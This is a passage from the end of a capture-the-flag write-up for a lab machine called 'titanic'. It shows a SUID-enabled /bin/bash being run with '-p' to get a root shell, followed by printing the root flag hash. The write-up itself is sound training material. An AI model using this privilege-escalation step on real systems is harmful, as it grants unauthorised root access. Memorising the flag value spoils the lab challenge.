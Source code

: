 After a few seconds the `SUID` bit was set on `/bin/bash` and we were able to `elevate our privileges` to `root`.

```c
developer@titanic:/opt/app/static/assets/images$ /bin/bash -p
bash-5.1#
```

## root.txt

```c
bash-5.1# cat root.txt
07695745a087a80463381cb415d5e8b5
```
